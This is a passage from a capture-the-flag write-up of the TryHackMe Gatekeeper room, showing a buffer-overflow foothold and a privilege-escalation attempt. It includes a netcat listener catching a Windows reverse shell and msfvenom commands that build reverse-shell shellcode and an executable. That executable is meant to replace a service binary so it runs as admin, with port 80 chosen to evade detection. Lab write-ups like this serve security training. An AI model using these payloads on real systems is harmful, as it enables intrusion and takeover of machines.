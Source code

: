 ```python title="./payload-dev.py"
  print("Could not connect.")
```

you pop a shell and see the windows prompt!

```bash
sudo rlwrap nc -lnvp 80                                                                                     1 ⨯
listening on [any] 80 ...
connect to [172.16.2.106] from (UNKNOWN) [172.16.2.125] 49360
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Downloads>
```

Now that it works on the local box, we can try with some level of confidence, a payload for the TryHackMe box.

### Shellcode: TryHackMe Box

remember, change destination IP, and also LHOST in the msfvenom payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=$VPN_IP LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c`

- `LHOST` is our VPN interface (i.e. `tun0`) so the THM box can see it
- we want port `80` to avoid detection
- `-b` dont use these characters for the shellcode
- `-f` format is C

### Flag: user.txt

Once you pop a shell on the THM box, you can find the flag under the natbat user's Desktop folder:

```text
{**************}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```

## PRIVESC

### Attempt: Run as Admin

One idea we had (team effort on Twitch), was replace the `gatekeeper.exe` with a reverse shell, because there was a *.bat file that periodically started the gatekeeper service.

generate reverse shell exe to be run by Admin:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.55.83 LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f exe -o gatekee
per.exe`

upload from the first reverse shell using certutil:
